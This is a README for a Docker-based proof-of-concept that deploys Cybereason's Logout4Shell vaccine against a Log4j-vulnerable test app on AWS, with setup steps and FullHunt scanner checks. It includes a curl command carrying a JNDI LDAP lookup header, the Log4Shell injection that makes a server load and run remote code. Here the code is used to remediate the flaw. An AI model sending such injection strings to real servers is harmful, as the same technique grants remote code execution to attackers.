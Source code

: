 # Logout4Shell Container

## Description

Since the disclosure of the Apache Log4j vulnerability affecting versions 2.0 through 2.14.1 in December of 2021, enterprises and small businesses have made it a priority to mitigate this risk. This vulnerability was given the highest possible severity rating of 10 when the CVE-2021-44228 was published on December 9, 2021 which allows remote code execution on vulnerable servers. 

With the guidance from the Apache software foundation, the best mitigation against this vulnerability is to patch log4j to 2.17.0 and above. In response to this 
vulnerability organizations like Cybereason and FullHunt have developed tools to scan for the vulnerability and mitigate this risk without the need to patch 
or restart the server.

Logout4Shell Container is not intended to take any credit for the research and development of these tools, but was developed for POC and ease of deployment.

More information regarding these tools can be found on [Cybereason Logout4Shell](https://github.com/Cybereason/Logout4Shell/blob/main/README.md) and 
[FullHunt log4j-scan](https://github.com/fullhunt/log4j-scan/blob/master/README.md)


## How Logout4Shell Container works

The Logout4Shell Container is an application consisting of the Cybereason Logout4Shell webserver and LDAP server. When a JNDI lookup with an appropriate HTTP header is sent to the vulnerable app, log4j interpolates the string and queries the LDAP server. The LDAP server then provides directory information for the Java class which is hosted on the webserver through the Transient and Persistent payloads. The payload remediates the log4j vulnerabilty by changing the FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS value from False to True. A quick warning that I haven't used this remediation in a production environment. More information regarding the potential impact it may have in a production environment can be read in Cybereason's documentation.

## POC Test Environment

- Logout4Shell Container deployed via Docker on an Amazon Linux 2 AMI (HVM) - Kernel 5.10, 8 GB General Purpose SSD Volume Type, t2.micro, EC2 instance.
- FullHunt log4j scan deployed via Docker on an Amazon Linux 2 AMI (HVM) - Kernel 5.10, 8 GB General Purpose SSD Volume Type, t2.micro, EC2 instance.
- Vulnerable app deployed via Docker on an Amazon Linux 2 AMI (HVM) - Kernel 5.10, 8 GB General Purpose SSD Volume Type, t2.micro, EC2 instance. More information regarding this vulnerable app can be found on [Log4Shell sample vulnerable application]( https://github.com/christophetd/log4shell-vulnerable-app/blob/main/README.md).

## Test Environment Setup

### Logout4Shell Container

1. Launch an EC2 instance with the user data script below. This will run an OS update, install and start the Docker engine, ensure that the Docker daemon starts after each system reboot, and install git:
```
#!/bin/bash
yum update -y
amazon-linux-extras install -y docker
service docker start
system reboot
systemctl enable docker
yum install -y git
```
2. SSH into your instance and install the latest version of Docker Compose:
```
sudo curl -L "https://github.com/docker/compose/releases/download/1.29.2/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
```
3. Adjust permissions:
```
sudo chmod +x /usr/local/bin/docker-compose
```
4. Clone Logout4Shell Container repository:
```
git clone https://github.com/gbarretto/logout4shell-container.git
```
5. Change directory to logout4shell-container:
```
cd logout4shell-container
```
6. Open var.env in GNU nano to edit:
```
nano var.env
```
7. Replace ```<host_ip>``` with the public IP address of the EC2 instance making sure to keep quotation marks.  
8. Replace ```<mode_type>``` with Transient or Persistent making sure to keep quotation marks. 
9. Press ```Control + X``` to bring you to Save modified buffer question. Then press ```Y```. Then press ```Enter``` to write changes to var.env file.
10. Run the command below to add the ec2-user to the docker group so you can execute Docker commands without using sudo:
```
sudo usermod -a -G docker ec2-user
```
11. Log out of your SSH session using ```exit``` and log back in again to pick up the new docker group permissions. 
12. Change directory to logout4shell-container:
```
cd logout4shell-container
```
13. Build Docker images using the command below:
```
docker-compose build
```
- When images are successfully built you'll see:
```
Successfully built XXXXXXXXXXXX
Successfully tagged gbarretto/cybereason:ldap-persistent
```
14. Launch the container in detached mode:
```
docker-compose up -d
```
- When the containers is successfully launched you'll see:
```
Creating network "logout4shell-container_default" with the default driver
Creating webserver       ... done
Creating ldap-persistent ... done
```

### FullHunt log4j scan
1. Launch an EC2 instance with the same user data script from above.
2. SSH into your instance in a new terminal window and run the commands below to build the FullHunt log4j scan:
```
git clone https://github.com/fullhunt/log4j-scan.git
cd log4j-scan
sudo docker build -t log4j-scan .
```

### Vulnerable app
1. Launch an EC2 instance with the same user data script from above. Adjust the security group to allow inbound connection from the IP address of the Logout4Shell container on ports 1389, 8888 and 443 and from the IP address of the FullHunt log4j scan on port 443.
3. SSH into your instance in a new terminal window and run the command below to run the vulnerable app via Docker:
```
docker run --name vulnerable-app --rm -p 443:8080 ghcr.io/christophetd/log4shell-vulnerable-app
```
- You want to make sure this container isn't publicly accessible.

### Adjust Security Group for Logout4Shell Container
1. In the AWS Management Console adjust the security group for the Logout4Shell Container to allow inbound connection from the IP address of the Vulnerable App on ports 1389 and 8888.

## How it works
1. Let's first vaildate that the Vulnerable app is indeed vulnerable. From the FullHunt log4j scan terminal window, execute the command below replacing ```<Vulnerable_App_IP_Address>``` with the IP address of the Vulnerable app instance:
```
sudo docker run -it --rm log4j-scan -u http://<Vulnerable_App_IP_Address>:443
```
- After a few seconds you should receive the following response:
```
[!!!] Target Affected
```
2. To vaccinate the Vulnerable app run the command below from the Logout4Shell Container terminal window replacing ```<Vulnerable_App_IP_Address>``` with the IP address of the Vulnerable app instance and ```<Logout4Shell_Container_IP_Address>``` with the IP address of the Logout4Shell Container instance:
```
curl <Vulnerable_App_IP_Address>:443 -H 'X-Api-Version: ${jndi:ldap://<Logout4Shell_Container_IP_Address>:1389/a}'
```
- After a few seconds you should receive a similar response in the Vulnerable app terminal window:
```
HelloWorld                               : Received a request for API version ${jndi:ldap://XX.XX.XXX.XXX:1389/a}
```
- If you scroll up in the same window you should see the output below validating the Transient or Persistent payload was executed:
```
Setting FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS value to True
````
3. Run the FullHunt log4j scan again and you should receive the output below validating the log4j vulnerability has been remediated:
```
[•] Targets do not seem to be vulnerable.
```
